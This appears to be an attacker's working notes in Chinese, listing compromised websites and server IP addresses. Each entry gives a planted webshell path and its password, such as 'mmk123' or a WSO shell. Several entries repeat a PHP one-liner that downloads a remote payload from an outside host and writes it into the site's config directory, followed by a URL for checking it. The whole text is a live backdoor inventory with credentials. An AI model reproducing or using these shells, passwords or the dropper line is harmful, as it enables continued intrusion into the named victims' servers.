 http://wangzhan1.chentu.fun/skin/fonts/m1.php |mmk123 |  101.200.184.155
代码更新：0608 ✅
http://wangzhan1.chentu.fun/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://wangzhan1.chentu.fun/config/httpd.php?d=up
https://wangzhan1.chentu.fun/index_bk.php |mmk123 |  101.200.184.155

https://www.jiucaimiao.cn/template/default/wap/comm/m1.php |mmk123 |  101.201.103.109 | 连接不上
https://www.jiucaimiao.cn/template/default/wap/comm/m1.php |mmk123 |  101.201.103.109
https://www.sxxzcm.com/index_bk.php --wso |BIG_wso |  120.53.238.180

http://www.gzchaoyinsu.com/template/default/bootstrap/js/js.php |mmk123 |  120.77.250.124
代码更新：0608 ✅
http://www.gzchaoyinsu.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.gzchaoyinsu.com/config/httpd.php?d=up

http://118.178.126.253/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://118.178.126.253/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://118.178.126.253/config/httpd.php?d=up

http://112.124.15.47/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://112.124.15.47/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://112.124.15.47/config/httpd.php?d=up

http://47.113.148.93/template/default/bootstrap/js/js.php |mmk123  | 连接不上
http://120.79.226.173:8090/template/default/bootstrap/js/js.php |mmk123 

http://47.101.51.162/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.101.51.162/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.101.51.162/config/httpd.php?d=up

http://121.40.25.18/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://121.40.25.18/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://121.40.25.18/config/httpd.php?d=up
